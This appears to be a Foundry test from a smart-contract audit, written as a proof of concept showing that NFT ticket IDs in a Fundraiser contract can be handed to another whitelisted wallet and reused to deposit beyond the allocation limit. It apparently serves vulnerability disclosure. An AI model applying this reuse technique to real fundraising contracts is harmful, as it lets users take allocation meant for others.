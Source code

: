 ```solidity
  uint256 baseAllocationPerWallet = 50e18;
  uint256 maxTotalAllocation = 200e18;
  uint256 nftTicketAllocation = 1e18;
  uint256 whitelistAllocation = 10e18;

  function setUp() public {
    vm.createSelectFork("https://eth.llamarpc.com/rpc/01GYVK2PRR9PG6E3KP7P8DSEFX");
    token = new MockERC20();
    nft = new MockNFT();

    fundraiser = new Fundraiser(address(token), baseAllocationPerWallet, maxTotalAllocation, nftTicketAllocation, block.timestamp, block.timestamp, block.timestamp + 1 days, address(this), address(nft));
    fundraiser.setWhitelist(whitelistAllocation);
  }

  function test_whiteListedCanUseInvalidNFT() external {

    // Amelie has 3 NFT's and 100 tokens
    vm.startPrank(amelie);
    uint256[] memory amelieTokenIds = new uint256[](3);
    amelieTokenIds[0] = 1;
    amelieTokenIds[1] = 2;
    amelieTokenIds[2] = 3;
    
    nft.mint(1);
    nft.mint(2);
    nft.mint(3);
    token.mint(100e18);

    token.approve(address(fundraiser), 100e18);
    fundraiser.depositWithWhitelistAndNft(63e18, amelieTokenIds);
    assertEq(fundraiser.depositedAmount(amelie) == 63e18, true);
    vm.stopPrank();
    
    vm.startPrank(noemi);

    token.mint(100e18);
    token.approve(address(fundraiser), 100e18);
    fundraiser.depositWithWhitelist(60e18);
    assertEq(fundraiser.depositedAmount(noemi) == 60e18, true);
    vm.stopPrank();


    // Noemi borrows tokens from Amelie
    vm.startPrank(amelie);

    nft.transferFrom(amelie, noemi, 1);
    nft.transferFrom(amelie, noemi, 2);
    nft.transferFrom(amelie, noemi, 3);

    vm.stopPrank();
    
    vm.startPrank(noemi);

    fundraiser.depositWithWhitelistAndNft(3e18, amelieTokenIds);

    assertEq(fundraiser.depositedAmount(noemi) == 63e18, true);
  }
}

```
